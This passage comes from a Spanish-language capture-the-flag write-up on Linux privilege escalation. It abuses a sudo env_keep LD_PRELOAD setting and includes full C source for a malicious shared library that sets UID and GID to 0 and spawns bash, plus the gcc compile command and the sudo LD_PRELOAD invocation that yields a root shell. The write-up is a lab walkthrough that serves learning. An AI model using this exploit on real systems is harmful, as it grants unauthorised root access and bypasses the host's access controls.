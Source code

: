 LD_PRELOAD es una función que permite que cualquier programa utilice bibliotecas compartidas. Como vemos, la opción "env_keep" está habilitada, lo que significa que podemos generar un biblioteca compartida que se cargará y ejecutará antes de ejecutar el programa. Tener en cuenta también que la opción LD_PRELOAD, se ignorará si el UID de usuario real, es deferente, por lo que lo primero que vamos a  hacer, es en primer lugar,  buscar una forma de modificar el UID y GID del usuario. Encontramos rápidamente un script en C que nos permite hacer esto. Lo que vamos a hacer, es ir al directorio /tmp y crear un script en C, llamado por ejemplo shell.c, con el siguiente contenido. 

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>

void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

Este código escrito en C como decimos, lo que está haciendo es modificar el UID Y GID, poniéndolo a 0, que es el que se corresponde con el usuario root. Luego, está ejecutando una bash. 

Con este código, lo que vamos a hacer es compilarlo y darle salida en formato Shared Object (.so), que es un archivo de objeto compartido. Para compilarlo, podemos utilizar gcc y estos parámetros. 

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![Imagen027](27.jpeg)
Pues ya tenemos lista nuestra biblioteca compartida maliciosa. Podemos hacerle un file si queremos para asegurarnos. Ahora, vamos a ejecutar el comando ping (que podemos hacerlo como root), pero cargándole la biblioteca maliciosa que hemos creado. De esta forma, al ejecutarse, y al hacerlo como root, lo que estará haciendo es darnos una Bash. Vamos a ponerlo a prueba 

```bash
sudo LD_PRELOAD=/tmp/shell.so ping
```

![Imagen028](28.jpeg)
Tal y como vemos, somos root. Ya solo nos queda ir al directorio personal del usuario root y hacerle un cat a la Flag 
